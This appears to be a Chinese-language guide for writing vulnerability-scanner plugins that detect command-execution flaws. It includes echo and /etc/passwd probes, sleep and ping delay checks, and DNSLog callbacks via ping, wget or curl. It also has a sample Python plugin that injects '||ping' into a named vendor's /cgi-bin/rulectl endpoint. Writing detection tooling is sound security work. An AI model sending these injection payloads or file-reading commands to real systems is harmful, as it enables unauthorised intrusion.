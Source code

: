 # 命令执行类
---

命令执行类，根据其输出情况可分两种，有回显和无回显(命令盲注)。根据目标运行的操作系统类型，大致分为 Windows 类和 Unix 类。在编写插件的时候，主要是根据有无回显来分类，并兼容两类操作系统。

* 有回显类

 编写该类插件检测思路为，直接在页面中输出某条有代表性的命令的执行结果。原则上不能对目标系统造成任何破坏。
 
 例如:

 * 输出当前的环境变量(Linux: `echo $PATH`, Windows: `echo %path%`)
 * 输出某个固定文件的内容(Linux: `/etc/passwd`, Windows: `C:\Windows\win.ini`)
 * 其它

* 无回显类

 无回显类命令执行后返回结果不得而知，大大增加了检测难度，检测主要有两种方式：

 * 延时检测

		与时间盲注类似，利用返回包时间来判断。Linux 下通过 `sleep 5` 来实现延时5秒；
		Windows 可以通过 `ping localhost -n 5` 来实现延时5秒。
		**该方法对异步命令执行类漏洞无效**。

 * 利用 DNSLog 检测(**推荐**)

		DNSLog 用于监测 DNS 和 HTTP 访问记录，可通过命令执行，让目标主机主动
		请求 DNSLog API 地址，有相应的解析记录，则可判定为存在命令执行漏洞。
		通常使用 ping 命令。Linux 下还可使用 `wget`, `curl` 等有网络请求功能的命令。
		**该方法对无任何外网访问权限的目标无效**。


**范例插件**

[西默科技 /cgi-bin/rulectl 命令执行漏洞检测](http://www.bugscan.net/source/plugin/4204/template/)

> 感谢插件作者: [上善若水](http://www.bugscan.net/accounts/template/profile/#/3255)

```
#!/usr/bin/env python
# -*- coding:utf-8 -*-
# Refer http://www.wooyun.org/bugs/wooyun-2016-0179411
# __Author__ = 上善若水
# _PlugName_ = ximo_rce Plugin
# _FileName_ = ximo_rce.py


def assign(service, arg):
    if service == fingerprint.ximo:
        return True, arg


def audit(arg):
    # 生成一个 hash 前缀
    hashstr = dnslog.create_hashstr()
    # 根据开发者的 udomain 生成需要请求的域名地址
    target = dnslog.create_dns_url(hashstr)
    # 构造命令执行的 Payload
    # 本漏洞中使用 ping 命令(注意限制ping次数)
    url = arg + "/cgi-bin/rulectl?woo||ping%20-c%203%20{target}".format(
        target=target)
    # 发送 Payload 到目标
    code, head, res, rurl, log = hackhttp.http(url)
    # 检查是否有 DNS 解析
    if dnslog.check_dns_log(hashstr):
        security_hole(url, log=log)


if __name__ == '__main__':
    from dummy import *
    audit(assign(fingerprint.ximo, "http://www.example.com/")[1])

```

### 使用 DNSLog 检测步骤

1. 生成一个随机的 hash 前缀
2. 根据开发者的 udomain 生成需要请求的域名地址
3. 构造命令执行的 Payload
4. 利用命令执行漏洞执行 Payload
5. 检查是否有 DNS 解析


### 命令执行常用命令

* 查看文件内容

 Linux:

 ```
 cat /etc/passwd
 ```

 Windows:

 ```
 type c:\windows\win.ini
 ```

* 使用 ping 命令

 Linux:

 ```
 ping -c 3 xxxx.test.dnslog.link
 ```

 Windows:

 ```
 ping xxx.text.dnslog.link -n 3
 ```
